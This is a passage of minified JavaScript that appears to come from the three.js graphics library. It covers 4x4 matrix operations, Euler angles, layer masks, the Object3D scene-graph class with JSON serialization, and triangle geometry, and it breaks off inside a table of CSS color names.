if(\"ZYX\"===t.order){const t=a*c,n=a*h,i=o*c,r=o*h;e[0]=s*c,e[4]=i*l-n,e[8]=t*l+r,e[1]=s*h,e[5]=r*l+t,e[9]=n*l-i,e[2]=-l,e[6]=o*s,e[10]=a*s}else if(\"YZX\"===t.order){const t=a*s,n=a*l,i=o*s,r=o*l;e[0]=s*c,e[4]=r-t*h,e[8]=i*h+n,e[1]=h,e[5]=a*c,e[9]=-o*c,e[2]=-l*c,e[6]=n*h+i,e[10]=t-r*h}else if(\"XZY\"===t.order){const t=a*s,n=a*l,i=o*s,r=o*l;e[0]=s*c,e[4]=-h,e[8]=l*c,e[1]=t*h+r,e[5]=a*c,e[9]=n*h-i,e[2]=i*h-n,e[6]=o*c,e[10]=r*h+t}return e[3]=0,e[7]=0,e[11]=0,e[12]=0,e[13]=0,e[14]=0,e[15]=1,this}makeRotationFromQuaternion(t){return this.compose(Tn,t,An)}lookAt(t,e,n){const i=this.elements;return Pn.subVectors(t,e),0===Pn.lengthSq()&&(Pn.z=1),Pn.normalize(),Cn.crossVectors(n,Pn),0===Cn.lengthSq()&&(1===Math.abs(n.z)?Pn.x+=1e-4:Pn.z+=1e-4,Pn.normalize(),Cn.crossVectors(n,Pn)),Cn.normalize(),Rn.crossVectors(Pn,Cn),i[0]=Cn.x,i[4]=Rn.x,i[8]=Pn.x,i[1]=Cn.y,i[5]=Rn.y,i[9]=Pn.y,i[2]=Cn.z,i[6]=Rn.z,i[10]=Pn.z,this}multiply(t){return this.multiplyMatrices(this,t)}premultiply(t){return this.multiplyMatrices(t,this)}multiplyMatrices(t,e){const n=t.elements,i=e.elements,r=this.elements,a=n[0],o=n[4],s=n[8],l=n[12],c=n[1],h=n[5],u=n[9],d=n[13],p=n[2],f=n[6],m=n[10],g=n[14],_=n[3],v=n[7],y=n[11],x=n[15],b=i[0],M=i[4],S=i[8],E=i[12],w=i[1],T=i[5],A=i[9],C=i[13],R=i[2],P=i[6],L=i[10],D=i[14],I=i[3],O=i[7],U=i[11],N=i[15];return r[0]=a*b+o*w+s*R+l*I,r[4]=a*M+o*T+s*P+l*O,r[8]=a*S+o*A+s*L+l*U,r[12]=a*E+o*C+s*D+l*N,r[1]=c*b+h*w+u*R+d*I,r[5]=c*M+h*T+u*P+d*O,r[9]=c*S+h*A+u*L+d*U,r[13]=c*E+h*C+u*D+d*N,r[2]=p*b+f*w+m*R+g*I,r[6]=p*M+f*T+m*P+g*O,r[10]=p*S+f*A+m*L+g*U,r[14]=p*E+f*C+m*D+g*N,r[3]=_*b+v*w+y*R+x*I,r[7]=_*M+v*T+y*P+x*O,r[11]=_*S+v*A+y*L+x*U,r[15]=_*E+v*C+y*D+x*N,this}multiplyScalar(t){const e=this.elements;return e[0]*=t,e[4]*=t,e[8]*=t,e[12]*=t,e[1]*=t,e[5]*=t,e[9]*=t,e[13]*=t,e[2]*=t,e[6]*=t,e[10]*=t,e[14]*=t,e[3]*=t,e[7]*=t,e[11]*=t,e[15]*=t,this}determinant(){const t=this.elements,e=t[0],n=t[4],i=t[8],r=t[12],a=t[1],o=t[5],s=t[9],l=t[13],c=t[2],h=t[6],u=t[10],d=t[14];return t[3]*(+r*s*h-i*l*h-r*o*u+n*l*u+i*o*d-n*s*d)+t[7]*(+e*s*d-e*l*u+r*a*u-i*a*d+i*l*c-r*s*c)+t[11]*(+e*l*h-e*o*d-r*a*h+n*a*d+r*o*c-n*l*c)+t[15]*(-i*o*c-e*s*h+e*o*u+i*a*h-n*a*u+n*s*c)}transpose(){const t=this.elements;let e;return e=t[1],t[1]=t[4],t[4]=e,e=t[2],t[2]=t[8],t[8]=e,e=t[6],t[6]=t[9],t[9]=e,e=t[3],t[3]=t[12],t[12]=e,e=t[7],t[7]=t[13],t[13]=e,e=t[11],t[11]=t[14],t[14]=e,this}setPosition(t,e,n){const i=this.elements;return t.isVector3?(i[12]=t.x,i[13]=t.y,i[14]=t.z):(i[12]=t,i[13]=e,i[14]=n),this}invert(){const t=this.elements,e=t[0],n=t[1],i=t[2],r=t[3],a=t[4],o=t[5],s=t[6],l=t[7],c=t[8],h=t[9],u=t[10],d=t[11],p=t[12],f=t[13],m=t[14],g=t[15],_=h*m*l-f*u*l+f*s*d-o*m*d-h*s*g+o*u*g,v=p*u*l-c*m*l-p*s*d+a*m*d+c*s*g-a*u*g,y=c*f*l-p*h*l+p*o*d-a*f*d-c*o*g+a*h*g,x=p*h*s-c*f*s-p*o*u+a*f*u+c*o*m-a*h*m,b=e*_+n*v+i*y+r*x;if(0===b)return this.set(0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0);const M=1/b;return t[0]=_*M,t[1]=(f*u*r-h*m*r-f*i*d+n*m*d+h*i*g-n*u*g)*M,t[2]=(o*m*r-f*s*r+f*i*l-n*m*l-o*i*g+n*s*g)*M,t[3]=(h*s*r-o*u*r-h*i*l+n*u*l+o*i*d-n*s*d)*M,t[4]=v*M,t[5]=(c*m*r-p*u*r+p*i*d-e*m*d-c*i*g+e*u*g)*M,t[6]=(p*s*r-a*m*r-p*i*l+e*m*l+a*i*g-e*s*g)*M,t[7]=(a*u*r-c*s*r+c*i*l-e*u*l-a*i*d+e*s*d)*M,t[8]=y*M,t[9]=(p*h*r-c*f*r-p*n*d+e*f*d+c*n*g-e*h*g)*M,t[10]=(a*f*r-p*o*r+p*n*l-e*f*l-a*n*g+e*o*g)*M,t[11]=(c*o*r-a*h*r-c*n*l+e*h*l+a*n*d-e*o*d)*M,t[12]=x*M,t[13]=(c*f*i-p*h*i+p*n*u-e*f*u-c*n*m+e*h*m)*M,t[14]=(p*o*i-a*f*i-p*n*s+e*f*s+a*n*m-e*o*m)*M,t[15]=(a*h*i-c*o*i+c*n*s-e*h*s-a*n*u+e*o*u)*M,this}scale(t){const e=this.elements,n=t.x,i=t.y,r=t.z;return e[0]*=n,e[4]*=i,e[8]*=r,e[1]*=n,e[5]*=i,e[9]*=r,e[2]*=n,e[6]*=i,e[10]*=r,e[3]*=n,e[7]*=i,e[11]*=r,this}getMaxScaleOnAxis(){const t=this.elements,e=t[0]*t[0]+t[1]*t[1]+t[2]*t[2],n=t[4]*t[4]+t[5]*t[5]+t[6]*t[6],i=t[8]*t[8]+t[9]*t[9]+t[10]*t[10];return Math.sqrt(Math.max(e,n,i))}makeTranslation(t,e,n){return t.isVector3?this.set(1,0,0,t.x,0,1,0,t.y,0,0,1,t.z,0,0,0,1):this.set(1,0,0,t,0,1,0,e,0,0,1,n,0,0,0,1),this}makeRotationX(t){const e=Math.cos(t),n=Math.sin(t);return this.set(1,0,0,0,0,e,-n,0,0,n,e,0,0,0,0,1),this}makeRotationY(t){const e=Math.cos(t),n=Math.sin(t);return this.set(e,0,n,0,0,1,0,0,-n,0,e,0,0,0,0,1),this}makeRotationZ(t){const e=Math.cos(t),n=Math.sin(t);return this.set(e,-n,0,0,n,e,0,0,0,0,1,0,0,0,0,1),this}makeRotationAxis(t,e){const n=Math.cos(e),i=Math.sin(e),r=1-n,a=t.x,o=t.y,s=t.z,l=r*a,c=r*o;return this.set(l*a+n,l*o-i*s,l*s+i*o,0,l*o+i*s,c*o+n,c*s-i*a,0,l*s-i*o,c*s+i*a,r*s*s+n,0,0,0,0,1),this}makeScale(t,e,n){return this.set(t,0,0,0,0,e,0,0,0,0,n,0,0,0,0,1),this}makeShear(t,e,n,i,r,a){return this.set(1,n,r,0,t,1,a,0,e,i,1,0,0,0,0,1),this}compose(t,e,n){const i=this.elements,r=e._x,a=e._y,o=e._z,s=e._w,l=r+r,c=a+a,h=o+o,u=r*l,d=r*c,p=r*h,f=a*c,m=a*h,g=o*h,_=s*l,v=s*c,y=s*h,x=n.x,b=n.y,M=n.z;return i[0]=(1-(f+g))*x,i[1]=(d+y)*x,i[2]=(p-v)*x,i[3]=0,i[4]=(d-y)*b,i[5]=(1-(u+g))*b,i[6]=(m+_)*b,i[7]=0,i[8]=(p+v)*M,i[9]=(m-_)*M,i[10]=(1-(u+f))*M,i[11]=0,i[12]=t.x,i[13]=t.y,i[14]=t.z,i[15]=1,this}decompose(t,e,n){const i=this.elements;let r=En.set(i[0],i[1],i[2]).length();const a=En.set(i[4],i[5],i[6]).length(),o=En.set(i[8],i[9],i[10]).length();this.determinant()<0&&(r=-r),t.x=i[12],t.y=i[13],t.z=i[14],wn.copy(this);const s=1/r,l=1/a,c=1/o;return wn.elements[0]*=s,wn.elements[1]*=s,wn.elements[2]*=s,wn.elements[4]*=l,wn.elements[5]*=l,wn.elements[6]*=l,wn.elements[8]*=c,wn.elements[9]*=c,wn.elements[10]*=c,e.setFromRotationMatrix(wn),n.x=r,n.y=a,n.z=o,this}makePerspective(t,e,n,i,r,a,o=2e3){const s=this.elements,l=2*r/(e-t),c=2*r/(n-i),h=(e+t)/(e-t),u=(n+i)/(n-i);let d,p;if(o===re)d=-(a+r)/(a-r),p=-2*a*r/(a-r);else{if(o!==ae)throw new Error(\"THREE.Matrix4.makePerspective(): Invalid coordinate system: \"+o);d=-a/(a-r),p=-a*r/(a-r)}return s[0]=l,s[4]=0,s[8]=h,s[12]=0,s[1]=0,s[5]=c,s[9]=u,s[13]=0,s[2]=0,s[6]=0,s[10]=d,s[14]=p,s[3]=0,s[7]=0,s[11]=-1,s[15]=0,this}makeOrthographic(t,e,n,i,r,a,o=2e3){const s=this.elements,l=1/(e-t),c=1/(n-i),h=1/(a-r),u=(e+t)*l,d=(n+i)*c;let p,f;if(o===re)p=(a+r)*h,f=-2*h;else{if(o!==ae)throw new Error(\"THREE.Matrix4.makeOrthographic(): Invalid coordinate system: \"+o);p=r*h,f=-1*h}return s[0]=2*l,s[4]=0,s[8]=0,s[12]=-u,s[1]=0,s[5]=2*c,s[9]=0,s[13]=-d,s[2]=0,s[6]=0,s[10]=f,s[14]=-p,s[3]=0,s[7]=0,s[11]=0,s[15]=1,this}equals(t){const e=this.elements,n=t.elements;for(let t=0;t<16;t++)if(e[t]!==n[t])return!1;return!0}fromArray(t,e=0){for(let n=0;n<16;n++)this.elements[n]=t[n+e];return this}toArray(t=[],e=0){const n=this.elements;return t[e]=n[0],t[e+1]=n[1],t[e+2]=n[2],t[e+3]=n[3],t[e+4]=n[4],t[e+5]=n[5],t[e+6]=n[6],t[e+7]=n[7],t[e+8]=n[8],t[e+9]=n[9],t[e+10]=n[10],t[e+11]=n[11],t[e+12]=n[12],t[e+13]=n[13],t[e+14]=n[14],t[e+15]=n[15],t}}const En=new Xe,wn=new Sn,Tn=new Xe(0,0,0),An=new Xe(1,1,1),Cn=new Xe,Rn=new Xe,Pn=new Xe,Ln=new Sn,Dn=new We;class In{constructor(t=0,e=0,n=0,i=In.DEFAULT_ORDER){this.isEuler=!0,this._x=t,this._y=e,this._z=n,this._order=i}get x(){return this._x}set x(t){this._x=t,this._onChangeCallback()}get y(){return this._y}set y(t){this._y=t,this._onChangeCallback()}get z(){return this._z}set z(t){this._z=t,this._onChangeCallback()}get order(){return this._order}set order(t){this._order=t,this._onChangeCallback()}set(t,e,n,i=this._order){return this._x=t,this._y=e,this._z=n,this._order=i,this._onChangeCallback(),this}clone(){return new this.constructor(this._x,this._y,this._z,this._order)}copy(t){return this._x=t._x,this._y=t._y,this._z=t._z,this._order=t._order,this._onChangeCallback(),this}setFromRotationMatrix(t,e=this._order,n=!0){const i=t.elements,r=i[0],a=i[4],o=i[8],s=i[1],l=i[5],c=i[9],h=i[2],u=i[6],d=i[10];switch(e){case\"XYZ\":this._y=Math.asin(de(o,-1,1)),Math.abs(o)<.9999999?(this._x=Math.atan2(-c,d),this._z=Math.atan2(-a,r)):(this._x=Math.atan2(u,l),this._z=0);break;case\"YXZ\":this._x=Math.asin(-de(c,-1,1)),Math.abs(c)<.9999999?(this._y=Math.atan2(o,d),this._z=Math.atan2(s,l)):(this._y=Math.atan2(-h,r),this._z=0);break;case\"ZXY\":this._x=Math.asin(de(u,-1,1)),Math.abs(u)<.9999999?(this._y=Math.atan2(-h,d),this._z=Math.atan2(-a,l)):(this._y=0,this._z=Math.atan2(s,r));break;case\"ZYX\":this._y=Math.asin(-de(h,-1,1)),Math.abs(h)<.9999999?(this._x=Math.atan2(u,d),this._z=Math.atan2(s,r)):(this._x=0,this._z=Math.atan2(-a,l));break;case\"YZX\":this._z=Math.asin(de(s,-1,1)),Math.abs(s)<.9999999?(this._x=Math.atan2(-c,l),this._y=Math.atan2(-h,r)):(this._x=0,this._y=Math.atan2(o,d));break;case\"XZY\":this._z=Math.asin(-de(a,-1,1)),Math.abs(a)<.9999999?(this._x=Math.atan2(u,l),this._y=Math.atan2(o,r)):(this._x=Math.atan2(-c,d),this._y=0);break;default:console.warn(\"THREE.Euler: .setFromRotationMatrix() encountered an unknown order: \"+e)}return this._order=e,!0===n&&this._onChangeCallback(),this}setFromQuaternion(t,e,n){return Ln.makeRotationFromQuaternion(t),this.setFromRotationMatrix(Ln,e,n)}setFromVector3(t,e=this._order){return this.set(t.x,t.y,t.z,e)}reorder(t){return Dn.setFromEuler(this),this.setFromQuaternion(Dn,t)}equals(t){return t._x===this._x&&t._y===this._y&&t._z===this._z&&t._order===this._order}fromArray(t){return this._x=t[0],this._y=t[1],this._z=t[2],void 0!==t[3]&&(this._order=t[3]),this._onChangeCallback(),this}toArray(t=[],e=0){return t[e]=this._x,t[e+1]=this._y,t[e+2]=this._z,t[e+3]=this._order,t}_onChange(t){return this._onChangeCallback=t,this}_onChangeCallback(){}*[Symbol.iterator](){yield this._x,yield this._y,yield this._z,yield this._order}}In.DEFAULT_ORDER=\"XYZ\";class On{constructor(){this.mask=1}set(t){this.mask=1<<t>>>0}enable(t){this.mask|=1<<t}enableAll(){this.mask=-1}toggle(t){this.mask^=1<<t}disable(t){this.mask&=~(1<<t)}disableAll(){this.mask=0}test(t){return!!(this.mask&t.mask)}isEnabled(t){return!!(this.mask&1<<t)}}let Un=0;const Nn=new Xe,Fn=new We,kn=new Sn,zn=new Xe,Bn=new Xe,Hn=new Xe,Vn=new We,Gn=new Xe(1,0,0),jn=new Xe(0,1,0),Wn=new Xe(0,0,1),Xn={type:\"added\"},qn={type:\"removed\"},Yn={type:\"childadded\",child:null},Kn={type:\"childremoved\",child:null};class Zn extends oe{constructor(){super(),this.isObject3D=!0,Object.defineProperty(this,\"id\",{value:Un++}),this.uuid=ue(),this.name=\"\",this.type=\"Object3D\",this.parent=null,this.children=[],this.up=Zn.DEFAULT_UP.clone();const t=new Xe,e=new In,n=new We,i=new Xe(1,1,1);e._onChange((function(){n.setFromEuler(e,!1)})),n._onChange((function(){e.setFromQuaternion(n,void 0,!1)})),Object.defineProperties(this,{position:{configurable:!0,enumerable:!0,value:t},rotation:{configurable:!0,enumerable:!0,value:e},quaternion:{configurable:!0,enumerable:!0,value:n},scale:{configurable:!0,enumerable:!0,value:i},modelViewMatrix:{value:new Sn},normalMatrix:{value:new ye}}),this.matrix=new Sn,this.matrixWorld=new Sn,this.matrixAutoUpdate=Zn.DEFAULT_MATRIX_AUTO_UPDATE,this.matrixWorldAutoUpdate=Zn.DEFAULT_MATRIX_WORLD_AUTO_UPDATE,this.matrixWorldNeedsUpdate=!1,this.layers=new On,this.visible=!0,this.castShadow=!1,this.receiveShadow=!1,this.frustumCulled=!0,this.renderOrder=0,this.animations=[],this.userData={}}onBeforeShadow(){}onAfterShadow(){}onBeforeRender(){}onAfterRender(){}applyMatrix4(t){this.matrixAutoUpdate&&this.updateMatrix(),this.matrix.premultiply(t),this.matrix.decompose(this.position,this.quaternion,this.scale)}applyQuaternion(t){return this.quaternion.premultiply(t),this}setRotationFromAxisAngle(t,e){this.quaternion.setFromAxisAngle(t,e)}setRotationFromEuler(t){this.quaternion.setFromEuler(t,!0)}setRotationFromMatrix(t){this.quaternion.setFromRotationMatrix(t)}setRotationFromQuaternion(t){this.quaternion.copy(t)}rotateOnAxis(t,e){return Fn.setFromAxisAngle(t,e),this.quaternion.multiply(Fn),this}rotateOnWorldAxis(t,e){return Fn.setFromAxisAngle(t,e),this.quaternion.premultiply(Fn),this}rotateX(t){return this.rotateOnAxis(Gn,t)}rotateY(t){return this.rotateOnAxis(jn,t)}rotateZ(t){return this.rotateOnAxis(Wn,t)}translateOnAxis(t,e){return Nn.copy(t).applyQuaternion(this.quaternion),this.position.add(Nn.multiplyScalar(e)),this}translateX(t){return this.translateOnAxis(Gn,t)}translateY(t){return this.translateOnAxis(jn,t)}translateZ(t){return this.translateOnAxis(Wn,t)}localToWorld(t){return this.updateWorldMatrix(!0,!1),t.applyMatrix4(this.matrixWorld)}worldToLocal(t){return this.updateWorldMatrix(!0,!1),t.applyMatrix4(kn.copy(this.matrixWorld).invert())}lookAt(t,e,n){t.isVector3?zn.copy(t):zn.set(t,e,n);const i=this.parent;this.updateWorldMatrix(!0,!1),Bn.setFromMatrixPosition(this.matrixWorld),this.isCamera||this.isLight?kn.lookAt(Bn,zn,this.up):kn.lookAt(zn,Bn,this.up),this.quaternion.setFromRotationMatrix(kn),i&&(kn.extractRotation(i.matrixWorld),Fn.setFromRotationMatrix(kn),this.quaternion.premultiply(Fn.invert()))}add(t){if(arguments.length>1){for(let t=0;t<arguments.length;t++)this.add(arguments[t]);return this}return t===this?(console.error(\"THREE.Object3D.add: object can't be added as a child of itself.\",t),this):(t&&t.isObject3D?(t.removeFromParent(),t.parent=this,this.children.push(t),t.dispatchEvent(Xn),Yn.child=t,this.dispatchEvent(Yn),Yn.child=null):console.error(\"THREE.Object3D.add: object not an instance of THREE.Object3D.\",t),this)}remove(t){if(arguments.length>1){for(let t=0;t<arguments.length;t++)this.remove(arguments[t]);return this}const e=this.children.indexOf(t);return-1!==e&&(t.parent=null,this.children.splice(e,1),t.dispatchEvent(qn),Kn.child=t,this.dispatchEvent(Kn),Kn.child=null),this}removeFromParent(){const t=this.parent;return null!==t&&t.remove(this),this}clear(){return this.remove(...this.children)}attach(t){return this.updateWorldMatrix(!0,!1),kn.copy(this.matrixWorld).invert(),null!==t.parent&&(t.parent.updateWorldMatrix(!0,!1),kn.multiply(t.parent.matrixWorld)),t.applyMatrix4(kn),t.removeFromParent(),t.parent=this,this.children.push(t),t.updateWorldMatrix(!1,!0),t.dispatchEvent(Xn),Yn.child=t,this.dispatchEvent(Yn),Yn.child=null,this}getObjectById(t){return this.getObjectByProperty(\"id\",t)}getObjectByName(t){return this.getObjectByProperty(\"name\",t)}getObjectByProperty(t,e){if(this[t]===e)return this;for(let n=0,i=this.children.length;n<i;n++){const i=this.children[n].getObjectByProperty(t,e);if(void 0!==i)return i}}getObjectsByProperty(t,e,n=[]){this[t]===e&&n.push(this);const i=this.children;for(let r=0,a=i.length;r<a;r++)i[r].getObjectsByProperty(t,e,n);return n}getWorldPosition(t){return this.updateWorldMatrix(!0,!1),t.setFromMatrixPosition(this.matrixWorld)}getWorldQuaternion(t){return this.updateWorldMatrix(!0,!1),this.matrixWorld.decompose(Bn,t,Hn),t}getWorldScale(t){return this.updateWorldMatrix(!0,!1),this.matrixWorld.decompose(Bn,Vn,t),t}getWorldDirection(t){this.updateWorldMatrix(!0,!1);const e=this.matrixWorld.elements;return t.set(e[8],e[9],e[10]).normalize()}raycast(){}traverse(t){t(this);const e=this.children;for(let n=0,i=e.length;n<i;n++)e[n].traverse(t)}traverseVisible(t){if(!1===this.visible)return;t(this);const e=this.children;for(let n=0,i=e.length;n<i;n++)e[n].traverseVisible(t)}traverseAncestors(t){const e=this.parent;null!==e&&(t(e),e.traverseAncestors(t))}updateMatrix(){this.matrix.compose(this.position,this.quaternion,this.scale),this.matrixWorldNeedsUpdate=!0}updateMatrixWorld(t){this.matrixAutoUpdate&&this.updateMatrix(),(this.matrixWorldNeedsUpdate||t)&&(!0===this.matrixWorldAutoUpdate&&(null===this.parent?this.matrixWorld.copy(this.matrix):this.matrixWorld.multiplyMatrices(this.parent.matrixWorld,this.matrix)),this.matrixWorldNeedsUpdate=!1,t=!0);const e=this.children;for(let n=0,i=e.length;n<i;n++){e[n].updateMatrixWorld(t)}}updateWorldMatrix(t,e){const n=this.parent;if(!0===t&&null!==n&&n.updateWorldMatrix(!0,!1),this.matrixAutoUpdate&&this.updateMatrix(),!0===this.matrixWorldAutoUpdate&&(null===this.parent?this.matrixWorld.copy(this.matrix):this.matrixWorld.multiplyMatrices(this.parent.matrixWorld,this.matrix)),!0===e){const t=this.children;for(let e=0,n=t.length;e<n;e++){t[e].updateWorldMatrix(!1,!0)}}}toJSON(t){const e=void 0===t||\"string\"==typeof t,n={};e&&(t={geometries:{},materials:{},textures:{},images:{},shapes:{},skeletons:{},animations:{},nodes:{}},n.metadata={version:4.6,type:\"Object\",generator:\"Object3D.toJSON\"});const i={};function r(e,n){return void 0===e[n.uuid]&&(e[n.uuid]=n.toJSON(t)),n.uuid}if(i.uuid=this.uuid,i.type=this.type,\"\"!==this.name&&(i.name=this.name),!0===this.castShadow&&(i.castShadow=!0),!0===this.receiveShadow&&(i.receiveShadow=!0),!1===this.visible&&(i.visible=!1),!1===this.frustumCulled&&(i.frustumCulled=!1),0!==this.renderOrder&&(i.renderOrder=this.renderOrder),Object.keys(this.userData).length>0&&(i.userData=this.userData),i.layers=this.layers.mask,i.matrix=this.matrix.toArray(),i.up=this.up.toArray(),!1===this.matrixAutoUpdate&&(i.matrixAutoUpdate=!1),this.isInstancedMesh&&(i.type=\"InstancedMesh\",i.count=this.count,i.instanceMatrix=this.instanceMatrix.toJSON(),null!==this.instanceColor&&(i.instanceColor=this.instanceColor.toJSON())),this.isBatchedMesh&&(i.type=\"BatchedMesh\",i.perObjectFrustumCulled=this.perObjectFrustumCulled,i.sortObjects=this.sortObjects,i.drawRanges=this._drawRanges,i.reservedRanges=this._reservedRanges,i.visibility=this._visibility,i.active=this._active,i.bounds=this._bounds.map((t=>({boxInitialized:t.boxInitialized,boxMin:t.box.min.toArray(),boxMax:t.box.max.toArray(),sphereInitialized:t.sphereInitialized,sphereRadius:t.sphere.radius,sphereCenter:t.sphere.center.toArray()}))),i.maxInstanceCount=this._maxInstanceCount,i.maxVertexCount=this._maxVertexCount,i.maxIndexCount=this._maxIndexCount,i.geometryInitialized=this._geometryInitialized,i.geometryCount=this._geometryCount,i.matricesTexture=this._matricesTexture.toJSON(t),null!==this._colorsTexture&&(i.colorsTexture=this._colorsTexture.toJSON(t)),null!==this.boundingSphere&&(i.boundingSphere={center:i.boundingSphere.center.toArray(),radius:i.boundingSphere.radius}),null!==this.boundingBox&&(i.boundingBox={min:i.boundingBox.min.toArray(),max:i.boundingBox.max.toArray()})),this.isScene)this.background&&(this.background.isColor?i.background=this.background.toJSON():this.background.isTexture&&(i.background=this.background.toJSON(t).uuid)),this.environment&&this.environment.isTexture&&!0!==this.environment.isRenderTargetTexture&&(i.environment=this.environment.toJSON(t).uuid);else if(this.isMesh||this.isLine||this.isPoints){i.geometry=r(t.geometries,this.geometry);const e=this.geometry.parameters;if(void 0!==e&&void 0!==e.shapes){const n=e.shapes;if(Array.isArray(n))for(let e=0,i=n.length;e<i;e++){const i=n[e];r(t.shapes,i)}else r(t.shapes,n)}}if(this.isSkinnedMesh&&(i.bindMode=this.bindMode,i.bindMatrix=this.bindMatrix.toArray(),void 0!==this.skeleton&&(r(t.skeletons,this.skeleton),i.skeleton=this.skeleton.uuid)),void 0!==this.material)if(Array.isArray(this.material)){const e=[];for(let n=0,i=this.material.length;n<i;n++)e.push(r(t.materials,this.material[n]));i.material=e}else i.material=r(t.materials,this.material);if(this.children.length>0){i.children=[];for(let e=0;e<this.children.length;e++)i.children.push(this.children[e].toJSON(t).object)}if(this.animations.length>0){i.animations=[];for(let e=0;e<this.animations.length;e++){const n=this.animations[e];i.animations.push(r(t.animations,n))}}if(e){const e=a(t.geometries),i=a(t.materials),r=a(t.textures),o=a(t.images),s=a(t.shapes),l=a(t.skeletons),c=a(t.animations),h=a(t.nodes);e.length>0&&(n.geometries=e),i.length>0&&(n.materials=i),r.length>0&&(n.textures=r),o.length>0&&(n.images=o),s.length>0&&(n.shapes=s),l.length>0&&(n.skeletons=l),c.length>0&&(n.animations=c),h.length>0&&(n.nodes=h)}return n.object=i,n;function a(t){const e=[];for(const n in t){const i=t[n];delete i.metadata,e.push(i)}return e}}clone(t){return(new this.constructor).copy(this,t)}copy(t,e=!0){if(this.name=t.name,this.up.copy(t.up),this.position.copy(t.position),this.rotation.order=t.rotation.order,this.quaternion.copy(t.quaternion),this.scale.copy(t.scale),this.matrix.copy(t.matrix),this.matrixWorld.copy(t.matrixWorld),this.matrixAutoUpdate=t.matrixAutoUpdate,this.matrixWorldAutoUpdate=t.matrixWorldAutoUpdate,this.matrixWorldNeedsUpdate=t.matrixWorldNeedsUpdate,this.layers.mask=t.layers.mask,this.visible=t.visible,this.castShadow=t.castShadow,this.receiveShadow=t.receiveShadow,this.frustumCulled=t.frustumCulled,this.renderOrder=t.renderOrder,this.animations=t.animations.slice(),this.userData=JSON.parse(JSON.stringify(t.userData)),!0===e)for(let e=0;e<t.children.length;e++){const n=t.children[e];this.add(n.clone())}return this}}Zn.DEFAULT_UP=new Xe(0,1,0),Zn.DEFAULT_MATRIX_AUTO_UPDATE=!0,Zn.DEFAULT_MATRIX_WORLD_AUTO_UPDATE=!0;const $n=new Xe,Jn=new Xe,Qn=new Xe,ti=new Xe,ei=new Xe,ni=new Xe,ii=new Xe,ri=new Xe,ai=new Xe,oi=new Xe;class si{constructor(t=new Xe,e=new Xe,n=new Xe){this.a=t,this.b=e,this.c=n}static getNormal(t,e,n,i){i.subVectors(n,e),$n.subVectors(t,e),i.cross($n);const r=i.lengthSq();return r>0?i.multiplyScalar(1/Math.sqrt(r)):i.set(0,0,0)}static getBarycoord(t,e,n,i,r){$n.subVectors(i,e),Jn.subVectors(n,e),Qn.subVectors(t,e);const a=$n.dot($n),o=$n.dot(Jn),s=$n.dot(Qn),l=Jn.dot(Jn),c=Jn.dot(Qn),h=a*l-o*o;if(0===h)return r.set(0,0,0),null;const u=1/h,d=(l*s-o*c)*u,p=(a*c-o*s)*u;return r.set(1-d-p,p,d)}static containsPoint(t,e,n,i){return null!==this.getBarycoord(t,e,n,i,ti)&&(ti.x>=0&&ti.y>=0&&ti.x+ti.y<=1)}static getInterpolation(t,e,n,i,r,a,o,s){return null===this.getBarycoord(t,e,n,i,ti)?(s.x=0,s.y=0,\"z\"in s&&(s.z=0),\"w\"in s&&(s.w=0),null):(s.setScalar(0),s.addScaledVector(r,ti.x),s.addScaledVector(a,ti.y),s.addScaledVector(o,ti.z),s)}static isFrontFacing(t,e,n,i){return $n.subVectors(n,e),Jn.subVectors(t,e),$n.cross(Jn).dot(i)<0}set(t,e,n){return this.a.copy(t),this.b.copy(e),this.c.copy(n),this}setFromPointsAndIndices(t,e,n,i){return this.a.copy(t[e]),this.b.copy(t[n]),this.c.copy(t[i]),this}setFromAttributeAndIndices(t,e,n,i){return this.a.fromBufferAttribute(t,e),this.b.fromBufferAttribute(t,n),this.c.fromBufferAttribute(t,i),this}clone(){return(new this.constructor).copy(this)}copy(t){return this.a.copy(t.a),this.b.copy(t.b),this.c.copy(t.c),this}getArea(){return $n.subVectors(this.c,this.b),Jn.subVectors(this.a,this.b),.5*$n.cross(Jn).length()}getMidpoint(t){return t.addVectors(this.a,this.b).add(this.c).multiplyScalar(1/3)}getNormal(t){return si.getNormal(this.a,this.b,this.c,t)}getPlane(t){return t.setFromCoplanarPoints(this.a,this.b,this.c)}getBarycoord(t,e){return si.getBarycoord(t,this.a,this.b,this.c,e)}getInterpolation(t,e,n,i,r){return si.getInterpolation(t,this.a,this.b,this.c,e,n,i,r)}containsPoint(t){return si.containsPoint(t,this.a,this.b,this.c)}isFrontFacing(t){return si.isFrontFacing(this.a,this.b,this.c,t)}intersectsBox(t){return t.intersectsTriangle(this)}closestPointToPoint(t,e){const n=this.a,i=this.b,r=this.c;let a,o;ei.subVectors(i,n),ni.subVectors(r,n),ri.subVectors(t,n);const s=ei.dot(ri),l=ni.dot(ri);if(s<=0&&l<=0)return e.copy(n);ai.subVectors(t,i);const c=ei.dot(ai),h=ni.dot(ai);if(c>=0&&h<=c)return e.copy(i);const u=s*h-c*l;if(u<=0&&s>=0&&c<=0)return a=s/(s-c),e.copy(n).addScaledVector(ei,a);oi.subVectors(t,r);const d=ei.dot(oi),p=ni.dot(oi);if(p>=0&&d<=p)return e.copy(r);const f=d*l-s*p;if(f<=0&&l>=0&&p<=0)return o=l/(l-p),e.copy(n).addScaledVector(ni,o);const m=c*p-d*h;if(m<=0&&h-c>=0&&d-p>=0)return ii.subVectors(r,i),o=(h-c)/(h-c+(d-p)),e.copy(i).addScaledVector(ii,o);const g=1/(m+f+u);return a=f*g,o=u*g,e.copy(n).addScaledVector(ei,a).addScaledVector(ni,o)}equals(t){return t.a.equals(this.a)&&t.b.equals(this.b)&&t.c.equals(this.c)}}const li={aliceblue:15792383,antiquewhite:16444375,aqua:65535,aquamarine:8388564,azure:15794175,beige:16119260,bisque:16770244,black:0,blanchedalmond:16772045,blue:255,blueviolet:9055202,brown:10824234,burlywood:14596231,cadetblue:6266528,chartreuse:8388352,chocolate:13789470,coral:16744272,cornflowerblue:6591981,cornsilk:16775388,crimson:14423100,cyan:65535,darkblue:139,darkcyan:35723,darkgoldenrod:12092939,darkgray:11119017,darkgreen:25600,darkgrey:11119017,darkkhaki:12433259,darkmagenta:9109643,darkolivegreen:5597999,darkorange:16747520,darkorchid:10040012,darkred:9109504,darksalmon:15308410,darkseagreen:9419919,darkslateblue:4734347,darkslategray:3100495,darkslategrey:3100495,darkturquoise:52945,darkviolet:9699539,deeppink:16716947,deepskyblue:49151,dimgray:6908265,dimgrey:6908265,dodgerblue:2003199,firebrick:11674146,floralwhite:16775920,forestgreen:2263842,fuchsia:16711935,gainsboro:14474460,ghostwh